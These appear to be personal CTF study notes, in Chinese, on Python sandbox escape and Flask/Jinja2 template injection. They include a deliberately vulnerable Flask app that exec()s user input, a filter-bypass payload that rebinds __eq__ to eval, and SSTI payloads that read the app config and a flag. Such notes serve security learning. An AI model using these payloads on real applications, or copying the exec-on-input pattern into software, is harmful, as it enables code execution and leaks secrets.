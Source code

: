 # python 沙箱逃逸

在xman个人排位赛的时候第一次见到这种题

## 推荐网站

[https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/](https://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

[https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-沙箱逃逸/)



 https://docs.python.org/zh-cn/3/reference/datamodel.html#object.__init__ 

## 关键函数

### getattr

`getattr`(*object*, *name*[, *default*])

返回对象命名属性的值。*name* 必须是字符串。如果该字符串是对象的属性之一，则返回该属性的值。例如， `getattr(x, 'foobar')` 等同于 `x.foobar`。如果指定的属性不存在，且提供了 *default* 值，则返回它，否则触发 [`AttributeError`](https://docs.python.org/zh-cn/3/library/exceptions.html#AttributeError)。

获得对象属性的值相当于拷贝对象属性的副本，如果这个对象的属性的值是一个函数呢？

fun=getattr(os,'system')则fun()=system()





## 过滤 (或)

利用魔术方法绕过，常见的如:`__eq__,__ne__,__getitem__...`

例如：

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: 
            print(i)
            return "error!"

    exec(secret)
    return "xXXxXXx"
```



```python
request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
```

## flask

url_for

### 获取config

```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}

{{config}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}

```




